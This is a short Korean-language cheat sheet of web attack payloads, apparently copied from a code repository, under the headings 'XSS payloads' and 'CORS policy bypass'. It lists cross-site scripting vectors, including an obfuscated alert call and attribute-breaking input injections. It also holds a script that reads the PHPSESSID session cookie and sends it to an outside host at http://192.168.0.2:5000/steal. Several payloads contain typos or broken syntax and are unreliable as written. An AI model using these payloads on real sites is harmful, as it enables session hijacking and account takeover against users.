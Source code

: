 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
  

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

;Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();


;window.open("https://naver.com");
